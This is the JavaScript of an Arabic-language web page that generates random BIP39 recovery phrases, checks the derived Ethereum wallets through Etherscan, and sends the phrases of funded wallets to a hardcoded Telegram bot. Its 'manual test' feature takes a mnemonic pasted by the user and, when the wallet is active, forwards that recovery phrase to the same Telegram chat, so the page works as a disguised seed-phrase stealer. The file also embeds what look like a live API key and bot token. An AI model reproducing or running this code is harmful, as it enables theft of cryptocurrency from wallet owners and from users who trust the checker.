        const ETHEREUM_API_KEY = 'ZTX93YC56F73T2W58IKS6GWWDH8UDRGBFK';
        const ETHEREUM_API_URL = `https://api.etherscan.io/api?apikey=${ETHEREUM_API_KEY}`;
        const TELEGRAM_BOT_TOKEN = '8257110214:AAFDx0awsmi7yjz6tCZqVY2jS5BZmygvQKw';
        const TELEGRAM_CHAT_ID = '910021564';
        const TELEGRAM_API_URL = `https://api.telegram.org/bot${TELEGRAM_BOT_TOKEN}`;

        // متغيرات العملية
        let isRunning = false;
        let searchInterval = null;
        let stats = {
            totalGenerated: 0,
            activeWallets: 0,
            emptyWallets: 0,
            errors: 0
        };

        // عناصر DOM
        const elements = {
            startBtn: document.getElementById('startBtn'),
            stopBtn: document.getElementById('stopBtn'),
            testTelegramBtn: document.getElementById('testTelegramBtn'),
            clearLogsBtn: document.getElementById('clearLogsBtn'),
            testManualBtn: document.getElementById('testManualBtn'),
            manualMnemonic: document.getElementById('manualMnemonic'),
            manualTestResult: document.getElementById('manualTestResult'),
            searchSpeed: document.getElementById('searchSpeed'),
            maxAttempts: document.getElementById('maxAttempts'),
            sendEmptyWallets: document.getElementById('sendEmptyWallets'),
            totalGenerated: document.getElementById('totalGenerated'),
            activeWallets: document.getElementById('activeWallets'),
            emptyWallets: document.getElementById('emptyWallets'),
            errorCount: document.getElementById('errorCount'),
            progressFill: document.getElementById('progressFill'),
            currentStatus: document.getElementById('currentStatus'),
            logPanel: document.getElementById('logPanel')
        };

        // التحقق من تحميل ethers.js
        function checkEthersLoaded() {
            if (typeof ethers === 'undefined') {
                updateStatus('❌ فشل في تحميل مكتبة ethers.js. يرجى التحقق من اتصال الإنترنت.', 'danger');
                addLogEntry('❌ فشل في تحميل مكتبة ethers.js', 'error');
                return false;
            }
            return true;
        }

        // وظائف توليد العبارات العشوائية
        function getSecureRandomInt(max) {
            const array = new Uint32Array(1);
            window.crypto.getRandomValues(array);
            return array[0] % max;
        }

        function generateRandomBIP39Phrase() {
            const words = [];
            for (let i = 0; i < 12; i++) {
                const randomIndex = getSecureRandomInt(BIP39_WORDLIST.length);
                words.push(BIP39_WORDLIST[randomIndex]);
            }
            return words.join(' ');
        }

        // وظائف المحفظة
        async function mnemonicToAddress(mnemonic) {
            try {
                if (!checkEthersLoaded()) {
                    throw new Error('مكتبة ethers.js غير محملة');
                }
                
                // التحقق من صحة العبارة باستخدام ethers
                if (!ethers.utils.isValidMnemonic(mnemonic)) {
                    throw new Error('عبارة استرجاع غير صالحة');
                }
                
                const wallet = ethers.Wallet.fromMnemonic(mnemonic);
                return wallet.address;
            } catch (error) {
                console.error('خطأ في تحويل العبارة إلى عنوان:', error);
                throw error;
            }
        }

        async function checkWalletBalance(address) {
            try {
                if (!checkEthersLoaded()) {
                    return null;
                }
                
                // استخدام Ethereum API بدلاً من Infura
                const response = await fetch(`${ETHEREUM_API_URL}&module=account&action=balance&address=${address}&tag=latest`);
                const data = await response.json();
                
                if (data.status === '1' && data.result) {
                    const balanceWei = data.result;
                    const balanceEth = ethers.utils.formatEther(balanceWei);
                    return parseFloat(balanceEth);
                } else {
                    throw new Error(data.message || 'خطأ في الحصول على الرصيد');
                }
            } catch (error) {
                console.error('خطأ في التحقق من الرصيد:', error);
                return null;
            }
        }

        async function getTransactionCount(address) {
            try {
                if (!checkEthersLoaded()) {
                    return null;
                }
                
                // استخدام Ethereum API بدلاً من Infura
                const response = await fetch(`${ETHEREUM_API_URL}&module=account&action=txlist&address=${address}&startblock=0&endblock=99999999&page=1&offset=1&sort=asc`);
                const data = await response.json();
                
                if (data.status === '1') {
                    return data.result.length;
                } else if (data.message === 'No transactions found') {
                    return 0;
                } else {
                    throw new Error(data.message || 'خطأ في الحصول على عدد المعاملات');
                }
            } catch (error) {
                console.error('خطأ في الحصول على عدد المعاملات:', error);
                return null;
            }
        }

        async function isWalletActive(address) {
            try {
                const balance = await checkWalletBalance(address);
                const transactionCount = await getTransactionCount(address);
                
                const hasBalance = balance !== null && balance > 0;
                const hasTransactions = transactionCount !== null && transactionCount > 0;
                
                return {
                    isActive: hasBalance || hasTransactions,
                    balance: balance,
                    transactionCount: transactionCount,
                    hasBalance: hasBalance,
                    hasTransactions: hasTransactions
                };
            } catch (error) {
                console.error('خطأ في التحقق من نشاط المحفظة:', error);
                return {
                    isActive: false,
                    balance: null,
                    transactionCount: null,
                    hasBalance: false,
                    hasTransactions: false,
                    error: error.message
                };
            }
        }

        // وظائف Telegram
        async function sendTelegramMessage(message) {
            try {
                const response = await fetch(`${TELEGRAM_API_URL}/sendMessage`, {
                    method: 'POST',
                    headers: { 'Content-Type': 'application/json' },
                    body: JSON.stringify({
                        chat_id: TELEGRAM_CHAT_ID,
                        text: message,
                        parse_mode: 'HTML'
                    })
                });
                
                const data = await response.json();
                if (!data.ok) {
                    console.error('خطأ في إرسال الرسالة:', data.description);
                    return false;
                }
                
                return true;
            } catch (error) {
                console.error('خطأ في الاتصال بـ Telegram:', error);
                return false;
            }
        }

        function formatWalletMessage(mnemonic, address, walletDetails, isActive = true) {
            const timestamp = new Date().toLocaleString('ar-EG', {
                timeZone: 'Africa/Cairo',
                year: 'numeric',
                month: '2-digit',
                day: '2-digit',
                hour: '2-digit',
                minute: '2-digit',
                second: '2-digit'
            });
            
            let message = '';
            
            if (isActive) {
                message = `🎉 <b>تم العثور على محفظة نشطة!</b>\n\n`;
            } else {
                message = `📭 <b>محفظة فارغة</b>\n\n`;
            }
            
            message += `📝 <b>العبارة:</b>\n<code>${mnemonic}</code>\n\n`;
            message += `📍 <b>العنوان:</b>\n<code>${address}</code>\n\n`;
            
            if (walletDetails.balance !== null) {
                message += `💰 <b>الرصيد:</b> ${walletDetails.balance.toFixed(6)} ETH\n`;
            }
            
            if (walletDetails.transactionCount !== null) {
                message += `📊 <b>عدد المعاملات:</b> ${walletDetails.transactionCount}\n`;
            }
            
            message += `\n⏰ <b>الوقت:</b> ${timestamp}`;
            return message;
        }

        async function sendWalletToTelegram(mnemonic, address, walletDetails, isActive = true) {
            try {
                const message = formatWalletMessage(mnemonic, address, walletDetails, isActive);
                return await sendTelegramMessage(message);
            } catch (error) {
                console.error('خطأ في إرسال المحفظة:', error);
                return false;
            }
        }

        // وظائف السجل
        function addLogEntry(message, type = 'info') {
            const timestamp = new Date().toLocaleTimeString('ar-EG');
            const logEntry = document.createElement('div');
            logEntry.className = `log-entry log-${type}`;
            logEntry.innerHTML = `<span class="log-timestamp">[${timestamp}]</span> ${message}`;
            
            elements.logPanel.appendChild(logEntry);
            elements.logPanel.scrollTop = elements.logPanel.scrollHeight;
        }

        // وظائف تحديث الواجهة
        function updateStats() {
            elements.totalGenerated.textContent = stats.totalGenerated;
            elements.activeWallets.textContent = stats.activeWallets;
            elements.emptyWallets.textContent = stats.emptyWallets;
            elements.errorCount.textContent = stats.errors;
            
            const maxAttempts = parseInt(elements.maxAttempts.value) || 0;
            if (maxAttempts > 0) {
                const progress = (stats.totalGenerated / maxAttempts) * 100;
                elements.progressFill.style.width = `${Math.min(progress, 100)}%`;
            }
        }

        function updateStatus(message, type = 'info') {
            elements.currentStatus.textContent = message;
            elements.currentStatus.className = `alert alert-${type}`;
        }

        // الوظيفة الرئيسية للبحث
        async function searchForActiveWallets() {
            try {
                if (!checkEthersLoaded()) {
                    stats.errors++;
                    updateStats();
                    return;
                }

                // توليد عبارة عشوائية
                const mnemonic = generateRandomBIP39Phrase();
                stats.totalGenerated++;
                
                updateStatus(`جاري فحص العبارة رقم ${stats.totalGenerated}...`, 'info');
                addLogEntry(`تم توليد عبارة جديدة: ${mnemonic.substring(0, 30)}...`);
                
                // تحويل العبارة إلى عنوان
                const address = await mnemonicToAddress(mnemonic);
                
                if (!address) {
                    stats.errors++;
                    addLogEntry('خطأ في تحويل العبارة إلى عنوان', 'error');
                    updateStats();
                    return;
                }
                
                // فحص نشاط المحفظة
                const walletStatus = await isWalletActive(address);
                
                if (walletStatus.isActive) {
                    stats.activeWallets++;
                    addLogEntry(`🎉 تم العثور على محفظة نشطة! العنوان: ${address}`, 'success');
                    
                    // إرسال المحفظة النشطة إلى Telegram
                    const telegramSent = await sendWalletToTelegram(mnemonic, address, walletStatus, true);
                    if (telegramSent) {
                        addLogEntry('✅ تم إرسال المحفظة النشطة إلى Telegram بنجاح', 'success');
                    } else {
                        addLogEntry('❌ فشل في إرسال المحفظة النشطة إلى Telegram', 'error');
                    }
                    
                    updateStatus(`تم العثور على محفظة نشطة! إجمالي المحافظ النشطة: ${stats.activeWallets}`, 'success');
                } else {
                    stats.emptyWallets++;
                    addLogEntry(`محفظة فارغة: ${address.substring(0, 20)}...`, 'info');
                    
                    // التحقق مما إذا كان يجب إرسال المحافظ الفارغة
                    const sendEmpty = elements.sendEmptyWallets.checked;
                    if (sendEmpty) {
                        const telegramSent = await sendWalletToTelegram(mnemonic, address, walletStatus, false);
                        if (telegramSent) {
                            addLogEntry('📭 تم إرسال المحفظة الفارغة إلى Telegram', 'info');
                        } else {
                            addLogEntry('❌ فشل في إرسال المحفظة الفارغة إلى Telegram', 'error');
                        }
                    }
                }
                
                updateStats();
                
                // التحقق من الحد الأقصى للمحاولات
                const maxAttempts = parseInt(elements.maxAttempts.value) || 0;
                if (maxAttempts > 0 && stats.totalGenerated >= maxAttempts) {
                    stopSearch();
                    updateStatus(`تم الوصول للحد الأقصى من المحاولات (${maxAttempts})`, 'warning');
                    addLogEntry(`تم إيقاف البحث - وصل للحد الأقصى: ${maxAttempts} محاولة`, 'info');
                }
                
            } catch (error) {
                stats.errors++;
                addLogEntry(`خطأ في العملية: ${error.message}`, 'error');
                updateStats();
            }
        }

        // وظائف اختبار العبارات يدويًا
        async function testManualMnemonic() {
            const mnemonic = elements.manualMnemonic.value.trim();
            
            if (!mnemonic) {
                updateStatus('يرجى إدخال عبارة BIP39 للفحص', 'warning');
                return;
            }
            
            try {
                if (!checkEthersLoaded()) {
                    return;
                }

                updateStatus('جاري فحص العبارة...', 'info');
                addLogEntry(`🔍 جاري فحص العبارة يدويًا: ${mnemonic}`);
                
                // إظهار مؤشر التحميل
                elements.testManualBtn.innerHTML = '<span class="loading-spinner"></span> جاري الفحص...';
                elements.testManualBtn.disabled = true;
                
                const address = await mnemonicToAddress(mnemonic);
                
                addLogEntry(`✅ تم تحويل العبارة إلى العنوان: ${address}`);
                
                const walletStatus = await isWalletActive(address);
                
                // تحديث واجهة نتائج الاختبار
                updateManualTestResult(mnemonic, address, walletStatus);
                
                // إضافة سجل
                if (walletStatus.isActive) {
                    addLogEntry(`🎉 العبارة تفتح محفظة نشطة! العنوان: ${address}`, 'success');
                    updateStatus('🎉 العبارة تفتح محفظة نشطة!', 'success');
                    
                    // إرسال المحفظة النشطة إلى Telegram
                    const telegramSent = await sendWalletToTelegram(mnemonic, address, walletStatus, true);
                    if (telegramSent) {
                        addLogEntry('✅ تم إرسال المحفظة إلى Telegram بنجاح', 'success');
                    } else {
                        addLogEntry('❌ فشل في إرسال المحفظة إلى Telegram', 'error');
                    }
                } else {
                    addLogEntry(`❌ العبارة تفتح محفظة فارغة: ${address}`, 'info');
                    updateStatus('❌ العبارة تفتح محفظة فارغة', 'info');
                    
                    // إرسال المحفظة الفارغة إلى Telegram إذا كان الخيار مفعل
                    const sendEmpty = elements.sendEmptyWallets.checked;
                    if (sendEmpty) {
                        const telegramSent = await sendWalletToTelegram(mnemonic, address, walletStatus, false);
                        if (telegramSent) {
                            addLogEntry('📭 تم إرسال المحفظة الفارغة إلى Telegram', 'info');
                        } else {
                            addLogEntry('❌ فشل في إرسال المحفظة الفارغة إلى Telegram', 'error');
                        }
                    }
                }
                
                // إعادة تعيين الزر
                elements.testManualBtn.innerHTML = '<span>🔍 فحص العبارة</span>';
                elements.testManualBtn.disabled = false;
                
            } catch (error) {
                updateStatus(`❌ خطأ في فحص العبارة: ${error.message}`, 'danger');
                addLogEntry(`❌ خطأ في فحص العبارة: ${error.message}`, 'error');
                elements.testManualBtn.innerHTML = '<span>🔍 فحص العبارة</span>';
                elements.testManualBtn.disabled = false;
            }
        }

        function updateManualTestResult(mnemonic, address, walletStatus) {
            let resultHTML = '';
            
            if (walletStatus.isActive) {
                resultHTML = `
                    <h4>✅ نتيجة الفحص: المحفظة نشطة</h4>
                    <div class="status active">محفظة نشطة</div>
                    <div class="balance ${walletStatus.balance > 0 ? 'positive' : 'zero'}">
                        💰 الرصيد: ${walletStatus.balance !== null ? walletStatus.balance.toFixed(6) + ' ETH' : 'غير معروف'}
                    </div>
                    <div class="transactions">
                        📊 عدد المعاملات: ${walletStatus.transactionCount !== null ? walletStatus.transactionCount : 'غير معروف'}
                    </div>
                    <div class="wallet-details">
                        <div class="mnemonic">📝 العبارة: ${mnemonic}</div>
                        <div class="address">📍 العنوان: ${address}</div>
                    </div>
                `;
                elements.manualTestResult.className = 'test-result active';
            } else {
                resultHTML = `
                    <h4>❌ نتيجة الفحص: المحفظة فارغة</h4>
                    <div class="status inactive">محفظة فارغة</div>
                    <div class="balance zero">
                        💰 الرصيد: ${walletStatus.balance !== null ? walletStatus.balance.toFixed(6) + ' ETH' : 'غير معروف'}
                    </div>
                    <div class="transactions">
                        📊 عدد المعاملات: ${walletStatus.transactionCount !== null ? walletStatus.transactionCount : 'غير معروف'}
                    </div>
                    <div class="wallet-details">
                        <div class="mnemonic">📝 العبارة: ${mnemonic}</div>
                        <div class="address">📍 العنوان: ${address}</div>
                    </div>
                `;
                elements.manualTestResult.className = 'test-result inactive';
            }
            
            elements.manualTestResult.innerHTML = resultHTML;
            elements.manualTestResult.style.display = 'block';
        }

        // وظائف التحكم
        async function startSearch() {
            if (isRunning) return;
            
            if (!checkEthersLoaded()) {
                return;
            }
            
            isRunning = true;
            elements.startBtn.disabled = true;
            elements.stopBtn.disabled = false;
            
            const speed = parseInt(elements.searchSpeed.value) || 2000;
            
            updateStatus('جاري بدء البحث...', 'info');
            addLogEntry('🚀 تم بدء البحث عن المحافظ النشطة');
            
            // إرسال رسالة البداية إلى Telegram
            const sendEmpty = elements.sendEmptyWallets.checked;
            let startMessage = `🚀 <b>بدء عملية البحث عن المحافظ</b>\n\n`;
            startMessage += `⏰ الوقت: ${new Date().toLocaleString('ar-EG', { timeZone: 'Africa/Cairo' })}\n`;
            startMessage += `🔍 جاري البحث عن محافظ...\n`;
            startMessage += `📭 إرسال المحافظ الفارغة: ${sendEmpty ? '✅ مفعل' : '❌ معطل'}`;
            
            await sendTelegramMessage(startMessage);
            
            searchInterval = setInterval(searchForActiveWallets, speed);
        }

        async function stopSearch() {
            if (!isRunning) return;
            
            isRunning = false;
            elements.startBtn.disabled = false;
            elements.stopBtn.disabled = true;
            
            if (searchInterval) {
                clearInterval(searchInterval);
                searchInterval = null;
            }
            
            updateStatus('تم إيقاف البحث', 'warning');
            addLogEntry('⏹️ تم إيقاف البحث');
            
            // إرسال رسالة الإيقاف إلى Telegram
            let stopMessage = `⏹️ <b>تم إيقاف عملية البحث</b>\n\n`;
            stopMessage += `📊 <b>الإحصائيات النهائية:</b>\n`;
            stopMessage += `🔢 إجمالي العبارات: ${stats.totalGenerated}\n`;
            stopMessage += `✅ المحافظ النشطة: ${stats.activeWallets}\n`;
            stopMessage += `📭 المحافظ الفارغة: ${stats.emptyWallets}\n`;
            stopMessage += `\n⏰ الوقت: ${new Date().toLocaleString('ar-EG', { timeZone: 'Africa/Cairo' })}`;
            
            await sendTelegramMessage(stopMessage);
        }

        async function testTelegramConnection() {
            updateStatus('جاري اختبار الاتصال بـ Telegram...', 'info');
            addLogEntry('🧪 جاري اختبار الاتصال بـ Telegram...');
            
            const testMessage = `🧪 <b>اختبار الاتصال</b>\n\nتم الاتصال بنجاح مع بوت Telegram!\n⏰ ${new Date().toLocaleString('ar-EG', { timeZone: 'Africa/Cairo' })}`;
            const success = await sendTelegramMessage(testMessage);
            
            if (success) {
                updateStatus('✅ تم الاتصال بـ Telegram بنجاح!', 'success');
                addLogEntry('✅ تم الاتصال بـ Telegram بنجاح!', 'success');
            } else {
                updateStatus('❌ فشل في الاتصال بـ Telegram', 'danger');
                addLogEntry('❌ فشل في الاتصال بـ Telegram', 'error');
            }
        }

        function clearLogs() {
            elements.logPanel.innerHTML = '';
            addLogEntry('تم مسح السجل');
        }

        // ربط الأحداث
        elements.startBtn.addEventListener('click', startSearch);
        elements.stopBtn.addEventListener('click', stopSearch);
        elements.testTelegramBtn.addEventListener('click', testTelegramConnection);
        elements.clearLogsBtn.addEventListener('click', clearLogs);
        elements.testManualBtn.addEventListener('click', testManualMnemonic);

        // التحقق من تحميل ethers.js عند بدء التطبيق
        document.addEventListener('DOMContentLoaded', function() {
            if (checkEthersLoaded()) {
                updateStatus('✅ تم تحميل مكتبة ethers.js بنجاح. جاهز للبدء...', 'success');
                addLogEntry('✅ تم تحميل مكتبة ethers.js بنجاح', 'success');
            }
        });

        // تحديث الإحصائيات عند بدء التطبيق
        updateStats();
    </script>
</body>
</html>
